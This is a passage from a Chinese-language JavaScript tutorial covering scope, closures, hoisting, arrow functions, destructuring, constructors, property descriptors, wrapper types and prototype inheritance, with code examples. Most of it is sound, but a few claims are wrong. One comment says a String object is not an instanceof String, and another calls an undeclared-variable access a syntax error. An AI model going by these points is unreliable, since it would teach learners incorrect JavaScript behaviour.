// 超出了 str 的作用域
console.log(str) // 报错

for (let t = 1; t <= 6; t++) {
  // t 只能在该代码块中被访问
  console.log(t) // 正常
}
// 超出了 t 的作用域
console.log(t) // 报错
```

JavaScript 中除了变量外还有常量，常量与变量本质的区别是【常量必须要有值且不允许被重新赋值】，常量值为对象时其属性和方法允许重新赋值。

```javascript
// 必须要有值
const version = '1.0.0'

// 不能重新赋值
// version = '1.0.1'

// 常量值为对象类型
const user = {
  name: '小明',
  age: 18
}

// 不能重新赋值
// user = {}

// 属性和方法允许被修改
user.name = '小小明'
user.gender = '男'
```

总结：

* `let` 声明的变量会产生块作用域，`var` 不会产生块作用域
* `const` 声明的常量也会产生块作用域
* 不同代码块之间的变量无法互相访问
* 推荐使用 `let` 或 `const`

> 提示
>
> 开发中 `let` 和 `const` 经常不加区分的使用，如果担心某个值会不小心被修改时，则只能使用 `const` 声明成常量。

### 14.3 全局作用域

`<script>` 标签和 `.js` 文件的【最外层】就是所谓的全局作用域，在此声明的变量在函数内部也可以被访问。

```javascript
// 全局变量 name
const name = '小明'

// 函数作用域中访问全局
function sayHi() {
  // 此处为局部
  console.log('你好' + name)
}

// 全局变量 flag 和 x
const flag = true
let x = 10

// 块作用域中访问全局
if (flag) {
  let y = 5
  console.log(x + y) // x 是全局的
}
```

总结：

* 为 `window` 对象动态添加的属性默认也是全局的，不推荐！
* 函数中未使用任何关键字声明的变量为全局变量，不推荐！！！
* 尽可能少的声明全局变量，防止全局变量被污染

### 14.4 作用域链

函数内部允许创建新的函数，`f` 函数内部创建的新函数 `g`，会产生新的函数作用域，由此可知作用域产生了嵌套的关系。

```javascript
// 全局作用域
let a = 1
let b = 2

// 局部作用域
function f() {
  let c
  console.log(a) // 1
  console.log(d) // 报错

  // 局部作用域
  function g() {
    let d = 'yo'
    console.log(b) // 2
  }

  // 调用 g 函数
  g()
}

console.log(c) // 报错
console.log(d) // 报错

f()
```

父子关系的作用域关联在一起形成了链状的结构，作用域链的名字也由此而来。作用域链本质上是底层的变量查找机制，在函数被执行时，会优先在当前函数作用域中查找变量，如果当前作用域查找不到则会依次逐级查找父级作用域直到全局作用域。

总结：

* 嵌套关系的作用域串联起来形成了作用域链
* 相同作用域链中按照从小到大的规则查找变量
* 子作用域能够访问父作用域，父级作用域无法访问子级作用域

### 14.5 JS 垃圾回收机制

JavaScript 中内存的分配和释放都是自动完成的，不再使用的变量、对象会被垃圾回收器回收，这个过程就称为垃圾回收机制。它的目的是为了节省内存空间。

* 引用计数：看一个对象是否有指向它的引用，没有引用就释放它（会存在循环引用无法回收的问题）
* 标记清除：从根部（全局对象）出发定时扫描内存中的对象，凡是从根部可以到达的对象标记为「使用中」，不能到达的对象标记为「不再使用」，然后回收（现代浏览器普遍采用的方案）

```javascript
// 1. 全局变量：页面关闭的时候才回收
let num = 10

// 2. 局部变量：函数执行完毕后就回收
function fn() {
  const str = 'andy'
  console.log(str)
}
fn()
```

> 提示
>
> 闭包会让外层函数作用域中的变量一直保存在内存中，这既是闭包实现数据私有的原理，也是闭包可能引起内存泄漏的原因。

### 14.6 闭包

闭包是一种比较特殊的函数，使用闭包能够访问函数作用域中的变量。从代码形式上看闭包是一个作为返回值的函数。

```javascript
// 1. 闭包 : 内层函数 + 外层函数变量
// function outer() {
//   const a = 1
//   function f() {
//     console.log(a)
//   }
//   f()
// }
// outer()

// 2. 闭包的应用：实现数据的私有，统计函数的调用次数
// let count = 1
// function fn() {
//   count++
//   console.log(`函数被调用${count}次`)
// }

// 3. 闭包的写法  统计函数的调用次数
function outer() {
  let count = 1
  function fn() {
    count++
    console.log(`函数被调用${count}次`)
  }
  return fn
}
const re = outer()
re()
re()
```

总结：

* 怎么理解闭包？闭包 = 内层函数 + 外层函数的变量
* 闭包的作用？
  * 封闭数据，实现数据私有，外部也可以访问函数内部的变量
  * 闭包很有用，因为它允许将函数与其所操作的某些数据（环境）关联起来
* 闭包可能引起的问题？内存泄漏

### 14.7 变量提升

变量提升是 JavaScript 中比较“奇怪”的现象，它允许在变量声明之前即被访问。

```javascript
// 访问变量 str
console.log(str + 'world!')

// 声明变量 str
var str = 'hello '
```

总结：

* 变量在未声明即被访问时会报语法错误
* 变量在声明之前即被访问，变量的值为 `undefined`
* `let` 声明的变量不存在变量提升，推荐使用 `let`
* 变量提升出现在相同作用域当中
* 实际开发中推荐先声明再访问变量

> 提示
>
> 关于变量提升的原理分析会涉及较为复杂的词法分析等知识，而开发中使用 `let` 可以轻松规避变量的提升。

<a id="ch15"></a>
## 15. 函数进阶与解构赋值

> 目标：知道函数参数默认值、动态参数、剩余参数的使用细节，知道箭头函数的语法及与普通函数的差异，掌握解构赋值的简洁语法。

### 15.1 函数提升

函数提升与变量提升比较类似，是指函数在声明之前即可被调用。

```javascript
// 调用函数
foo()
// 声明函数
function foo() {
  console.log('声明之前即被调用...')
}

// 不存在提升现象
// bar() // 错误
var bar = function () {
  console.log('函数表达式不存在提升现象...')
}
```

总结：

* 函数提升能够使函数的声明调用更灵活
* 函数表达式不存在提升的现象
* 函数提升出现在相同作用域当中
* 同一作用域内声明两个同名函数，**后面的会覆盖前面的**（提升时按声明顺序依次处理，最后一个生效）

### 15.2 函数参数

#### 15.2.1 默认值

```javascript
// 设置参数默认值
function sayHi(name = "小明", age = 18) {
  document.write(`<p>大家好，我叫${name}，我今年${age}岁了。</p>`)
}
// 调用函数
sayHi()
sayHi('小红')
sayHi('小刚', 21)
```

总结：

* 声明函数时为形参赋值即为参数的默认值
* 如果参数未自定义默认值时，参数的默认值为 `undefined`
* 调用函数时没有传入对应实参时，参数的默认值被当做实参传入

#### 15.2.2 动态参数

`arguments` 是函数内部内置的类数组（array-like）对象，它包含了调用函数时传入的所有实参。

```javascript
// 求和函数，计算所有参数的和
function sum() {
  let s = 0
  for (let i = 0; i < arguments.length; i++) {
    s += arguments[i]
  }
  console.log(s)
}
// 调用求和函数
sum(5, 10) // 15
sum(1, 2, 4) // 7
```

`arguments` 的常用操作：

* `arguments.length`：获取实参个数
* `arguments[0]`、`arguments[1]`……：按索引取某一个实参
* `arguments.callee`：指向当前函数本身（严格模式下禁用，了解即可）

`arguments` 是**伪数组**：有 `length` 和索引号，但没有 `push`、`pop` 等数组方法。需要数组方法时，常见有 4 种转真数组的写法：

```javascript
function foo() {
  // 1. 手动遍历
  const arr1 = []
  for (let i = 0; i < arguments.length; i++) {
    arr1.push(arguments[i])
  }

  // 2. 借用 Array.prototype.slice
  const arr2 = Array.prototype.slice.call(arguments)

  // 3. Array.from
  const arr3 = Array.from(arguments)

  // 4. 展开运算符
  const arr4 = [...arguments]

  console.log(arr1, arr2, arr3, arr4)
}
foo(10, 20, 30)
```

总结：

* `arguments` 是一个伪数组
* `arguments` 的作用是动态获取函数的实参
* 箭头函数没有自己的 `arguments`，要用剩余参数 `...args`（见 15.3.1）

#### 15.2.3 剩余参数

```javascript
function config(baseURL, ...other) {
  console.log(baseURL) // 得到 'http://baidu.com'
  console.log(other) // other 得到 ['get', 'json']
}
// 调用函数
config('http://baidu.com', 'get', 'json')
```

总结：

* `...` 是语法符号，置于最末函数形参之前，用于获取多余的实参
* 借助 `...` 获取的剩余实参，是个真数组

### 15.3 箭头函数

箭头函数是一种声明函数的简洁语法，它与普通函数并无本质的区别，差异性更多体现在语法格式上。

```javascript
// 1. 箭头函数 基本语法
const fn = () => {
  console.log(123)
}
fn()

// 2. 只有一个形参的时候，可以省略小括号
const fn1 = x => {
  console.log(x)
}
fn1(1)

// 3. 只有一行代码的时候，我们可以省略大括号
const fn2 = x => console.log(x)
fn2(1)

// 4. 只有一行代码的时候，可以省略 return
const fn3 = x => x + x
console.log(fn3(1))

// 5. 箭头函数可以直接返回一个对象
const fn4 = (uname) => ({ uname: uname })
console.log(fn4('刘德华'))
```

总结：

* 箭头函数属于表达式函数，因此不存在函数提升
* 箭头函数只有一个参数时可以省略圆括号 `()`
* 箭头函数函数体只有一行代码时可以省略花括号 `{}`，并自动作为返回值被返回

#### 15.3.1 箭头函数参数

箭头函数中没有 `arguments`，只能使用 `...` 动态获取实参。

```javascript
// 利用箭头函数来求和
const getSum = (...arr) => {
  let sum = 0
  for (let i = 0; i < arr.length; i++) {
    sum += arr[i]
  }
  return sum
}
const result = getSum(2, 3, 4)
console.log(result) // 9
```

#### 15.3.2 箭头函数 this

箭头函数不会创建自己的 `this`，它只会从自己的作用域链的上一层沿用 `this`。

```javascript
// 以前 this 的指向：谁调用的这个函数，this 就指向谁
function fn() {
  console.log(this) // window
}
window.fn()

// 对象方法里面的 this
const obj1 = {
  name: 'andy',
  sayHi: function () {
    console.log(this) // obj1
  }
}
obj1.sayHi()

// 1. 箭头函数的 this 是上一层作用域的 this 指向
const fn2 = () => {
  console.log(this) // window
}
fn2()

// 2. 对象方法箭头函数的 this
const obj2 = {
  uname: 'pink老师',
  sayHi: () => {
    console.log(this) // window
  }
}
obj2.sayHi()

// 3. 普通函数中的箭头函数，this 与普通函数的 this 一致
const obj3 = {
  uname: 'pink老师',
  sayHi: function () {
    console.log(this) // obj3
    let i = 10
    const count = () => {
      console.log(this) // obj3
    }
    count()
  }
}
obj3.sayHi()
```

### 15.4 解构赋值

解构赋值是一种快速为变量赋值的简洁语法，本质上仍然是为变量赋值，分为数组解构、对象解构两大类型。

#### 15.4.1 数组解构

数组解构是将数组的单元值快速批量赋值给一系列变量的简洁语法。

```javascript
// 普通的数组
let arr = [1, 2, 3]
// 批量声明变量 a b c
// 同时将数组单元值 1 2 3 依次赋值给变量 a b c
let [a, b, c] = arr
console.log(a) // 1
console.log(b) // 2
console.log(c) // 3
```

总结：

* 赋值运算符 `=` 左侧的 `[]` 用于批量声明变量，右侧数组的单元值将被赋值给左侧的变量
* 变量的顺序对应数组单元值的位置依次进行赋值操作
* 变量的数量大于单元值数量时，多余的变量将被赋值为 `undefined`
* 变量的数量小于单元值数量时，可以通过 `...` 获取剩余单元值，但只能置于最末位
* 允许初始化变量的默认值，且只有单元值为 `undefined` 时默认值才会生效

数组解构赋值的前面必须加分号，否则上一行代码会和 `[]` 连在一起导致报错（立即执行函数同理）：

```javascript
const str = 'pink';
[1, 2, 3].map(function (item) {
  console.log(item)
})

let a = 1
let b = 2
;[b, a] = [a, b]
```

> 注意
>
> 使用数组解构时，要么上一行代码以 `;` 结尾，要么在本行 `[` 的前面补一个 `;`。

#### 15.4.2 对象解构

对象解构是将对象属性和方法快速批量赋值给一系列变量的简洁语法。

```javascript
// 普通对象
const user = {
  name: '小明',
  age: 18
}
// 批量声明变量 name age
// 同时将属性值 小明 18 依次赋值给变量 name age
const { name, age } = user

console.log(name) // 小明
console.log(age) // 18
```

总结：

* 赋值运算符 `=` 左侧的 `{}` 用于批量声明变量，右侧对象的属性值将被赋值给左侧的变量
* 对象属性的值将被赋值给与属性名相同的变量
* 对象中找不到与变量名一致的属性时变量值为 `undefined`
* 允许初始化变量的默认值，属性不存在或单元值为 `undefined` 时默认值才会生效

```javascript
// 1. 这是后台传递过来的数据
const msg = {
  "code": 200,
  "msg": "获取新闻列表成功",
  "data": [
    {
      "id": 1,
      "title": "5G商用自己，三大运用商收入下降",
      "count": 58
    },
    {
      "id": 2,
      "title": "国际媒体头条速览",
      "count": 56
    }
  ]
}

// 需求 2：把 data 选出当做参数传递给函数
function render({ data }) {
  // 我们只要 data 数据
  console.log(data)
}
render(msg)

// 需求 3：为了防止 msg 里面的 data 名字混淆，要求渲染函数里面的数据名改为 myData
function render2({ data: myData }) {
  // 要求将获取过来的 data 数据更名为 myData
  console.log(myData)
}
render2(msg)
```

#### 15.4.3 多值解构

支持多维解构赋值，比较复杂，后续有应用需求时再进一步分析。

### 15.5 综合案例：forEach 与 filter

#### 15.5.1 forEach 遍历数组

`forEach()` 方法用于调用数组的每个元素，并将元素传递给回调函数。

```javascript
// forEach 就是遍历，加强版的 for 循环，适合于遍历数组对象
const arr = ['red', 'green', 'pink']
const result = arr.forEach(function (item, index) {
  console.log(item) // 数组元素 red green pink
  console.log(index) // 索引号
})
// console.log(result)
```

> 注意
>
> * forEach 主要是遍历数组
> * 参数当前数组元素是必须要写的，索引号可选

#### 15.5.2 filter 筛选数组

`filter()` 方法创建一个新的数组，新数组中的元素是通过检查指定数组中符合条件的所有元素。

* 主要使用场景：筛选数组符合条件的元素，并返回筛选之后元素的新数组

```javascript
const arr = [10, 20, 30]
// const newArr = arr.filter(function (item, index) {
//   return item >= 20
// })

// 返回的符合条件的新数组
const newArr = arr.filter(item => item >= 20)
console.log(newArr)
```

<a id="ch16"></a>
## 16. 面向对象与内置构造函数

> 目标：了解面向对象编程的基础概念及构造函数的作用，体会 JavaScript 一切皆对象的语言特征，掌握常见的对象属性和方法的使用。

### 16.1 构造函数

创建对象常用的三种方式：

1. **对象字面量**：`const o = { name: '佩奇' }`
2. **`new Object()`**：`const o = new Object({ name: '佩奇' })`
3. **构造函数**：`const o = new Pig('佩奇', 6, '女')`，适合批量创建结构相同的对象

构造函数是专门用于创建对象的函数，如果一个函数使用 `new` 关键字调用，那么这个函数就是构造函数。

```javascript
// 定义函数
function foo() {
  console.log('通过 new 也能调用函数...')
}
// 调用函数
new foo
```

总结：

* 使用 `new` 关键字调用函数的行为被称为实例化
* 实例化构造函数时没有参数时可以省略 `()`
* 构造函数的返回值即为新创建的对象
* 构造函数内部的 `return` 返回的值无效！

> 提示
>
> 实践中为了从视觉上区分构造函数和普通函数，习惯将构造函数的首字母大写。

**实例化的执行过程**

1. 在内存中创建一个新的空对象
2. 这个新对象内部的 `[[Prototype]]`（即 `__proto__`）会被赋值为构造函数的 `prototype` 属性
3. 构造函数内部的 `this` 指向这个新对象
4. 执行构造函数内部的代码（给 `this` 添加属性和方法）
5. 如果构造函数没有返回非空对象，则返回这个新对象

### 16.2 实例成员

通过构造函数创建的对象称为实例对象，实例对象中的属性和方法称为实例成员。

```javascript
// 构造函数
function Person() {
  // 构造函数内部的 this 就是实例对象
  // 实例对象中动态添加属性
  this.name = '小明'
  // 实例对象动态添加方法
  this.sayHi = function () {
    console.log('大家好~')
  }
}
// 实例化，p1 是实例对象
// p1 实际就是构造函数内部的 this
const p1 = new Person()
console.log(p1.name) // 访问实例属性
p1.sayHi() // 调用实例方法
```

总结：

* 构造函数内部 `this` 实际上就是实例对象，为其动态添加的属性和方法即为实例成员
* 为构造函数传入参数，动态创建结构相同但值不同的对象

> 注意
>
> 构造函数创建的实例对象彼此独立互不影响。

### 16.3 静态成员

在 JavaScript 中底层函数本质上也是对象类型，因此允许直接为函数动态添加属性或方法，构造函数的属性和方法被称为静态成员。

```javascript
// 构造函数
function Person(name, age) {
  // 省略实例成员
}
// 静态属性
Person.eyes = 2
Person.arms = 2
// 静态方法
Person.walk = function () {
  console.log('^_^人都会走路...')
  // this 指向 Person
  console.log(this.eyes)
}
```

总结：

* 静态成员指的是添加到构造函数本身的属性和方法
* 一般公共特征的属性或方法设置为静态成员
* 静态成员方法中的 `this` 指向构造函数本身

### 16.4 内置构造函数

在 JavaScript 中**最主要**的数据类型有 6 种，分别是字符串、数值、布尔、undefined、null 和对象，常见的对象类型数据包括数组和普通对象。其中字符串、数值、布尔、undefined、null 也被称为简单类型或基础类型，对象也被称为引用类型。

在 JavaScript 内置了一些构造函数，绝大多数的数据处理都是基于这些构造函数实现的，JavaScript 基础阶段学习的 `Date` 就是内置的构造函数。

```javascript
// 实例化
let date = new Date()
// date 即为实例对象
console.log(date)
```

甚至字符串、数值、布尔、数组、普通对象也都有专门的构造函数，用于创建对应类型的数据。

#### 16.4.1 Object

`Object` 是内置的构造函数，用于创建普通对象。

```javascript
// 通过构造函数创建普通对象
const user = new Object({ name: '小明', age: 15 })

// 这种方式声明的变量称为【字面量】
let student = { name: '杜子腾', age: 21 }

// 对象语法简写
let name = '小红'
let people = {
  // 相当于 name: name
  name,
  // 相当于 walk: function () {}
  walk() {
    console.log('人都要走路...')
  }
}

console.log(student.constructor)
console.log(user.constructor)
console.log(student instanceof Object)
```

总结：

* 推荐使用字面量方式声明对象，而不是 `Object` 构造函数
* `Object.assign` 静态方法创建新的对象
* `Object.keys` 静态方法获取对象中所有属性
* `Object.values` 静态方法获取对象中所有属性值

#### 16.4.2 Array

`Array` 是内置的构造函数，用于创建数组。

```javascript
// 构造函数创建数组
let arr = new Array(5, 7, 8)

// 字面量方式创建数组
let list = ['html', 'css', 'javascript']
```

总结：

* 推荐使用字面量方式声明数组，而不是 `Array` 构造函数
* 实例方法 `forEach` 用于遍历数组，替代 `for` 循环（重点）
* 实例方法 `filter` 过滤数组单元值，生成新数组（重点）
* 实例方法 `map` 迭代原数组，生成新数组（重点）
* 实例方法 `reduce` 累计处理数组单元值，返回累计后的结果（重点）
* 实例方法 `join` 数组元素拼接为字符串，返回字符串（重点）
* 实例方法 `find` 查找元素，返回符合测试条件的第一个数组元素值，如果没有符合条件的则返回 undefined（重点）
* 实例方法 `every` 检测数组所有元素是否都符合指定条件，如果**所有元素**都通过检测返回 true，否则返回 false（重点）
* 实例方法 `some` 检测数组中的元素是否满足指定条件，**如果数组中有**元素满足条件返回 true，否则返回 false
* 实例方法 `concat` 合并两个数组，返回生成新数组
* 实例方法 `sort` 对原数组单元值排序
* 实例方法 `splice` 删除或替换原数组单元
* 实例方法 `reverse` 反转数组
* 实例方法 `findIndex` 查找元素的索引值

其中 `reduce` 用于累计处理数组单元值，`Array.from` 用于把伪数组转换为真数组：

```javascript
const arr = [1, 2, 3]

// reduce(回调函数(累计值, 当前元素), 起始值)
// 省略起始值时，累计值默认为数组的第一个单元值
const re = arr.reduce((prev, item) => prev + item)
console.log(re) // 6

const lis = document.querySelectorAll('ul li')
// lis.pop() 报错，伪数组没有 pop 等方法
const liss = Array.from(lis)
liss.pop()
console.log(liss)
```

> 提示
>
> `querySelectorAll`、`arguments` 得到的都是伪数组，只有长度和索引号，需要 `Array.from` 转换后才能使用数组的方法。

### 16.5 属性描述符

前面添加属性，都是直接写在对象内部，或者用 `对象.属性名 = 值` 挂上去的 —— 这样加进去的属性非常「自由」：可以用 `delete` 删掉、可以被 `for...in` 遍历出来、值随时能改，我们没法对它们做任何限制。

如果想要**精确地控制一个属性**（能不能删、能不能被遍历、能不能改、读写时要做什么），就要用到**属性描述符**，它需要借助 `Object.defineProperty` 来添加或修改属性。

#### 16.5.1 `Object.defineProperty`

`Object.defineProperty()` 方法会直接在一个对象上定义一个新属性，或者修改一个对象的现有属性，并返回此对象。

```javascript
Object.defineProperty(obj, prop, descriptor)
```

接收三个参数：

* `obj`：要定义属性的对象
* `prop`：要定义或修改的属性的名称或 `Symbol`
* `descriptor`：要定义或修改的属性描述符

返回值是被传递给函数的那个对象。

```javascript
const obj = { name: 'why', age: 18, height: 1.88 }

// 修改现有的属性
Object.defineProperty(obj, 'name', {
  value: 'coderwhy'
})

console.log(obj.name) // coderwhy
```

#### 16.5.2 描述符的分类

属性描述符分两类，区别在于能写哪些字段：

| 描述符 | configurable | enumerable | value | writable | get | set |
| --- | --- | --- | --- | --- | --- | --- |
| 数据属性描述符 | 可以 | 可以 | 可以 | 可以 | 不可以 | 不可以 |
| 存取属性描述符 | 可以 | 可以 | 不可以 | 不可以 | 可以 | 可以 |

#### 16.5.3 数据属性描述符

数据属性描述符有四个特性：

* `[[Configurable]]`：表示属性是否可以通过 `delete` 删除属性、是否可以修改它的特性，或者是否可以将它修改为存取属性描述符
* `[[Enumerable]]`：表示属性是否可以通过 `for...in` 或者 `Object.keys()` 返回该属性
* `[[Writable]]`：表示是否可以修改属性的值
* `[[Value]]`：属性的 value 值，读取属性时会返回该值，修改属性时，会对其进行修改

前三个特性有一条**默认值规则**：

* 当我们直接在一个对象上定义某个属性时，这三个特性都为 `true`
* 当我们通过属性描述符定义一个属性时，这三个特性**默认都为 `false`**

`[[Value]]` 默认情况下是 `undefined`。

```javascript
const obj = { name: 'why' }
console.log(Object.getOwnPropertyDescriptor(obj, 'name'))
// { value: 'why', writable: true, enumerable: true, configurable: true }

Object.defineProperty(obj, 'name', { value: 'coderwhy' })
console.log(Object.getOwnPropertyDescriptor(obj, 'name'))
// { value: 'coderwhy', writable: false, enumerable: false, configurable: false }
```

> 注意
>
> 只要用描述符定义过一次属性，三个特性默认就都是 `false` 了：之后再 `obj.name = 'x'` 改不动、`delete obj.name` 删不掉、`for...in` 也遍历不出来。非严格模式下这些操作是**静默失败**的（不报错，但也没生效），排查时很容易误以为代码没执行。

#### 16.5.4 存取属性描述符

存取属性描述符把「读」和「写」拆成两个函数。`[[Configurable]]` 与 `[[Enumerable]]` 的规则和数据属性描述符完全一致，另外两个特性是：

* `[[get]]`：获取属性时会执行的函数。默认为 `undefined`
* `[[set]]`：设置属性时会执行的函数。默认为 `undefined`

```javascript
const obj = {
  name: 'why',
  _age: 18 // 约定俗成：下划线开头表示「内部数据」，不希望被直接读写
}

Object.defineProperty(obj, 'age', {
  configurable: true,
  enumerable: true,
  get() {
    console.log('读取了 age')
    return this._age
  },
  set(value) {
    console.log('设置了 age')
    this._age = value
  }
})

console.log(obj.age) // 读取了 age → 18
obj.age = 20 // 设置了 age
console.log(obj.age) // 读取了 age → 20
```

> 提示
>
> `get` / `set` 和数据描述符的 `value` / `writable` **不能写在同一个描述符里**，否则会报错。19.10.3 讲的 class 里的 getter / setter，用的就是同一套机制；19.16 里说的 `Object.prototype.__proto__` 也是一个存取属性，所以它才能「读出来是原型、写进去能改原型」。

### 16.6 包装类型

在 JavaScript 中的字符串、数值、布尔具有对象的使用特征，如具有属性和方法。

```javascript
// 字符串类型
const str = 'hello world!'
// 统计字符的长度（字符数量）
console.log(str.length)

// 数值类型
const price = 12.345
// 保留两位小数
price.toFixed(2) // 12.34
```

之所以具有对象特征的原因是字符串、数值、布尔类型数据是 JavaScript 底层使用 Object 构造函数“包装”来的，被称为包装类型。

基本类型本身不是对象、没有方法，只有在**调用方法的那一瞬间**，引擎才会临时把它包装成对象：

```javascript
let str = 'hello'
let upper = str.toUpperCase()
```

执行过程：

1. `str` 是基本字符串，存在栈里
2. 调用 `str.toUpperCase()` 时，引擎临时创建一个 `new String(str)` 包装对象
3. 在包装对象上调用方法
4. 方法执行完，包装对象立即被销毁，`str` 仍然是原来的基本类型

所以包装对象是“用完即弃”的；而 `{}`、`[]`、`new XXX()` 创建的是真正的对象，会一直存在。

#### 16.6.1 String

`String` 是内置的构造函数，用于创建字符串。

```javascript
// 使用构造函数创建字符串
let str = new String('hello world!')

// 字面量创建字符串
let str2 = '你好，世界！'

// 检测是否属于同一个构造函数
console.log(str.constructor === str2.constructor) // true
console.log(str instanceof String) // false
```

总结：

* 实例属性 `length` 用来获取字符串的长度（重点）
* 实例方法 `split('分隔符')` 用来将字符串拆分成数组（重点）
* 实例方法 `substring(需要截取的第一个字符的索引[, 结束的索引号])` 用于字符串截取（重点）
* 实例方法 `startsWith(检测字符串[, 检测位置索引号])` 检测是否以某字符开头（重点）
* 实例方法 `includes(搜索的字符串[, 检测位置索引号])` 判断一个字符串是否包含在另一个字符串中，根据情况返回 true 或 false（重点）
* 实例方法 `toUpperCase` 用于将字母转换成大写
* 实例方法 `toLowerCase` 用于将字母转换成小写
* 实例方法 `indexOf` 检测是否包含某字符
* 实例方法 `trim` 去掉字符串两侧的空格
* 实例方法 `endsWith` 检测是否以某字符结尾
* 实例方法 `replace` 用于替换字符串，支持正则匹配
* 实例方法 `match` 用于查找字符串，支持正则匹配

> 提示
>
> `String` 也可以当做普通函数使用，这时它的作用是强制转换成字符串数据类型。

#### 16.6.2 Number

`Number` 是内置的构造函数，用于创建数值。

```javascript
// 使用构造函数创建数值
let x = new Number('10')
let y = new Number(5)

// 字面量创建数值
let z = 20
```

总结：

* 推荐使用字面量方式声明数值，而不是 `Number` 构造函数
* 实例方法 `toFixed` 用于设置保留小数位的长度

JavaScript 中小数的计算存在精度问题：

```javascript
console.log(0.1 + 0.2) // 0.30000000000000004
```

解决思路是先把小数转换为整数计算，再还原为小数：

```javascript
console.log((0.1 * 100 + 0.2 * 100) / 100) // 0.3
```

> 注意
>
> `toFixed` 方法返回的是字符串类型，参与后续计算时需要先转换。

<a id="ch17"></a>
## 17. 原型与原型链

> 目标：了解构造函数原型对象的语法特征，掌握 JavaScript 中面向对象编程的实现方式。

### 17.1 编程思想

#### 17.1.1 面向过程

面向过程就是分析出解决问题所需要的步骤，然后用函数把这些步骤一步一步实现，使用的时候再一个一个的依次调用就可以了。

举个例子：蛋炒饭。


#### 17.1.2 面向对象

面向对象是把事务分解成为一个个对象，然后由对象之间分工与合作。



在面向对象程序开发思想中，每一个对象都是功能中心，具有明确分工。面向对象编程具有灵活、代码可复用、容易维护和开发的优点，更适合多人合作的大型软件项目。

面向对象的特性：封装性、继承性、多态性。

### 17.2 构造函数封装

对比以下通过面向对象的构造函数实现的封装：

```javascript
function Person() {
  this.name = '佚名'
  // 设置名字
  this.setName = function (name) {
    this.name = name
  }
  // 读取名字
  this.getName = () => {
    console.log(this.name)
  }
}

// 实例对象，获得了构造函数中封装的所有逻辑
let p1 = new Person()
p1.setName('小明')
console.log(p1.name)

// 实例对象
let p2 = new Person()
console.log(p2.name)
```

封装是面向对象思想中比较重要的一部分，js 面向对象可以通过构造函数实现的封装。同样的将变量和函数组合到了一起并能通过 `this` 实现数据的共享，所不同的是借助构造函数创建出来的实例对象之间是彼此不影响的。

总结：

* 构造函数体现了面向对象的封装特性
* 构造函数实例创建的对象彼此独立、互不影响

> 注意
>
> 前面我们学过的构造函数方法很好用，但是存在浪费内存的问题。

### 17.3 原型对象

构造函数通过原型分配的函数是所有对象所共享的。

* JavaScript 规定，每一个构造函数都有一个 `prototype` 属性，指向另一个对象，所以我们也称为原型对象
* 这个对象可以挂载函数，对象实例化不会多次创建原型上函数，节约内存
* 我们可以把那些不变的方法，直接定义在 `prototype` 对象上，这样所有对象的实例就可以共享这些方法
* 构造函数和原型对象中的 `this` 都指向实例化的对象

```javascript
function Person() {
  // 此处未定义任何方法
}

// 每个函数都有 prototype 属性
// 为构造函数的原型对象添加方法
Person.prototype.sayHi = function () {
  console.log('Hi~')
}

// 实例化
let p1 = new Person()
p1.sayHi() // 输出结果为 Hi~
```

构造函数 `Person` 中未定义任何方法，这时实例对象调用了原型对象中的方法 `sayHi`。接下来改动一下代码：

```javascript
function Person() {
  // 此处定义同名方法 sayHi
  this.sayHi = function () {
    console.log('嗨!')
  }
}

// 为构造函数的原型对象添加方法
Person.prototype.sayHi = function () {
  console.log('Hi~')
}

let p1 = new Person()
p1.sayHi() // 输出结果为 嗨!
```

构造函数 `Person` 中定义与原型对象中相同名称的方法，这时实例对象调用则是构造函数中的方法 `sayHi`。

通过以上两个简单示例不难发现 JavaScript 中对象的工作机制：**当访问对象的属性或方法时，先在当前实例对象中查找，然后再去原型对象查找，并且原型对象被所有实例共享。**

```javascript
function Person() {
  // 此处定义同名方法 sayHi
  this.sayHi = function () {
    console.log('嗨!' + this.name)
  }
}

// 为构造函数的原型对象添加方法
Person.prototype.sayHi = function () {
  console.log('Hi~' + this.name)
}
// 在构造函数的原型对象上添加属性
Person.prototype.name = '小明'

let p1 = new Person()
p1.sayHi() // 输出结果为 嗨!
```

> 经验
>
> 结合构造函数原型的特征，实际开发中往往会将封装的功能函数添加到原型对象中。

#### 17.3.1 constructor 属性

* 在哪里？每个原型对象里面都有个 `constructor` 属性（constructor 构造函数）
* 作用：该属性指向该原型对象的构造函数，简单理解，就是指向我的爸爸，我是有爸爸的孩子

**使用场景**：

如果有多个对象的方法，我们可以给原型对象采取对象形式赋值。但是这样就会覆盖构造函数原型对象原来的内容，这样修改后的原型对象 `constructor` 就不再指向当前构造函数了。此时，我们可以在修改后的原型对象中，添加一个 `constructor` 指向原来的构造函数。

### 17.4 对象原型

对象都会有一个属性 `__proto__` 指向构造函数的 `prototype` 原型对象，之所以我们对象可以使用构造函数 `prototype` 原型对象的属性和方法，就是因为对象有 `__proto__` 原型的存在。

> 注意
>
> * `__proto__` 是 JS 非标准属性
> * `[[prototype]]` 和 `__proto__` 意义相同
> * 用来表明当前实例对象指向哪个原型对象 `prototype`
> * `__proto__` 对象原型里面也有一个 `constructor` 属性，指向创建该实例对象的构造函数

### 17.5 原型继承

继承是面向对象编程的另一个特征，通过继承进一步提升代码封装的程度，JavaScript 中大多是借助原型对象实现继承的特性。

龙生龙、凤生凤、老鼠的儿子会打洞描述的正是继承的含义。

```javascript
// 构造函数 new 出来的对象 结构一样，但是对象不一样
function Person() {
  this.eyes = 2
  this.head = 1
}

// 女人 构造函数 继承 想要继承 Person
function Woman() {

}
// Woman 通过原型来继承 Person
// 父构造函数（父类）   子构造函数（子类）
// 子类的原型 = new 父类
Woman.prototype = new Person() // {eyes: 2, head: 1}
// 指回原来的构造函数
Woman.prototype.constructor = Woman

